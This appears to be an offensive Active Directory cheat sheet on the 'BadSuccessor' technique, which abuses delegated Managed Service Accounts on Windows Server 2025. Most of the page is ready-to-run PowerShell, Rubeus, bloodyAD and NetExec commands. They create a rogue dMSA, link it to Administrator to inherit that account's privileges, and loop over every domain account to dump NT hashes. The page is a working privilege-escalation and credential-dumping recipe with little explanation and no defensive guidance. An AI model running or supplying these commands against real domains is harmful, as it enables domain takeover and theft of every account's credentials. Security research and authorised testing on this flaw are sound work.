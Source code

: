 # Password - dMSA

Delegated Managed Service Accounts (dMSAs)

## BadSuccessor

**Requirements**:

* Windows Server 2025 Domain Controller
* Permission on any organizational unit (OU) in the domain

**Tools**:

* [akamai/BadSuccessor/Get-BadSuccessorOUPermissions.ps1](https://github.com/akamai/BadSuccessor)
* [LuemmelSec/Pentest-Tools-Collection/BadSuccessor.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/ActiveDirectory/BadSuccessor.ps1)
* [GhostPack/Rubeus PR #194](https://github.com/GhostPack/Rubeus/pull/194)
* [CravateRouge/bloodyAD Commit #210f735](https://github.com/CravateRouge/bloodyAD/commit/210f735474a403dd64b218b84e98a27e157e7ed3)
* [skelsec/minikerberos/getDmsa.py](https://github.com/skelsec/minikerberos/blob/main/minikerberos/examples/getDmsa.py)
* [logangoins/SharpSuccessor](https://github.com/logangoins/SharpSuccessor)

    ```ps1
    SharpSuccessor.exe add /impersonate:Administrator /path:"ou=test,dc=lab,dc=lan" /account:jdoe /name:attacker_dMSA
    ```

* [Pennyw0rth/NetExec PR #702](https://github.com/Pennyw0rth/NetExec/pull/702/commits/e75512a93cde0c893505fd806e169a2aa7a683db)

    ```ps1
    poetry run netexec ldap 10.10.10.10 -u administrator -p Passw0rd -M badsuccessor
    ```

![badsuccessor-attack-flow](https://www.akamai.com/site/en/images/blog/2025/badsuccessor-image5.png)

**Manual Exploitation**:

* Verify if the DC is a Server 2025

    ```ps1
    ldapsearch "(&(objectClass=computer)(primaryGroupID=516))" dn,name,operatingsystem

    # BloodHound Query
    MATCH (c:Computer)
    WHERE c.isdc = true AND c.operatingsystem CONTAINS "2025"
    RETURN c.name
    ```

* Create unfunctional dMSA

    ```ps1
    New-ADServiceAccount -Name "attacker_dmsa" -DNSHostName "dontcare.com" -CreateDelegatedServiceAccount -PrincipalsAllowedToRetrieveManagedPassword "attacker-machine$" -path "OU=temp,DC=aka,DC=test"
    ```

* Edit `msDS-ManagedAccountPrecededByLink` and `msDS-DelegatedMSAState` values

    ```ps1
    # msDS-ManagedAccountPrecededByLink, targeted user or computer
    # msDS-DelegatedMSAState=2, completed migration
    $dMSA = [ADSI]"LDAP://CN=attacker_dmsa,OU=temp,DC=aka,DC=test"
    $dMSA.Put("msDS-DelegatedMSAState", 2)
    $dMSA.Put("msDS-ManagedAccountPrecededByLink", "CN=Administrator,CN=Users,DC=aka,DC=test")
    $dMSA.SetInfo()
    ```

* dMSA authentication with Rubeus

    ```ps1
    Rubeus.exe asktgs /targetuser:attacker_dmsa$ /service:krbtgt/aka.test /dmsa /opsec /nowrap /ptt /ticket:<Machine TGT>
    ```

## Credential Dumping

> When you request a TGT for a dMSA, it comes with a new structure called KERB-DMSA-KEY-PACKAGE. This structure includes two fields: current-keys and previous-keys. - Akamai Blog Post

The previous-keys field contains the RC4-HMAC of the password (NT Hash).

```ps1
.\Invoke-BadSuccessorKeysDump.ps1 -OU 'OU=temp,DC=aka,DC=test'
```

* [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

    ```ps1
    $domain = Get-ADDomain
    $dmsa = "CN=mydmsa,CN=Managed Service Accounts,$($domain.DistinguishedName)"
    $allDNs = @(Get-ADUser -Filter * | select @{n='DN';e={$_.DistinguishedName}}, sAMAccountName) + @(Get-ADComputer -Filter * | select @{n='DN';e={$_.DistinguishedName}}, SAMAccountName)
    $allDNs | % {
        Set-ADObject -Identity $dmsa -Replace @{ "msDS-ManagedAccountPrecendedByLink" = $_.DN }
        $res = Invoke-Rubeus asktgs /targeteduser:mydmsa$ /service:"krbtgt/$(domain.DNSRoot)" /opsec /dmsa /nowrap /ticket:$kirbi
        $rc4 = [regex]::Match($res, 'Previous Keys for .*\$: \(rc4_hmac\) ([A-F0-9]{32})').Groups[1].Value
        "$($_.sAMAccountName):$rc4"
    }
    ```

* [CravateRouge/bloodyAD](https://github.com/CravateRouge/bloodyAD)

    ```ps1
    python bloodyAD.py --host 192.168.100.5 -d bloody.corp -u jeanne -p 'Password123!' get writable --otype OU 
    python bloodyAD.py --host 192.168.100.5 -d bloody.corp -u jeanne -p 'Password123!' add badSuccessor dmsADM10
    ```

* [snovvcrash/dMSASync.py](https://gist.github.com/snovvcrash/a1ae180ab3b49acb43da8fd34e7e93df)

    ```ps1
    getTGT.py 'kerberos+aes://contoso.local\user:AES_KEY@DC_IP' --ccache user.ccache
    dMSASync.py 'contoso.local\user:user.ccache@DC01.contoso.local/?dc=DC_IP' 'CN=dmsa,CN=Managed Service Accounts,DC=contoso,DC=local'
    ```

## References

* [BadSuccessor: Abusing dMSA to Escalate Privileges in Active Directory - Yuval Gordon - May 21, 2025](https://www.akamai.com/blog/security-research/abusing-dmsa-for-privilege-escalation-in-active-directory)
* [Operationalizing the BadSuccessor: Abusing dMSA for Domain Privilege Escalation - Arun Nair - May 23, 2025](https://medium.com/seercurity-spotlight/operationalizing-the-badsuccessor-abusing-dmsa-for-domain-privilege-escalation-429cefc36187)
* [Understanding & Mitigating BadSuccessor - Jim Sykora - May 27 2025](https://specterops.io/blog/2025/05/27/understanding-mitigating-badsuccessor/)
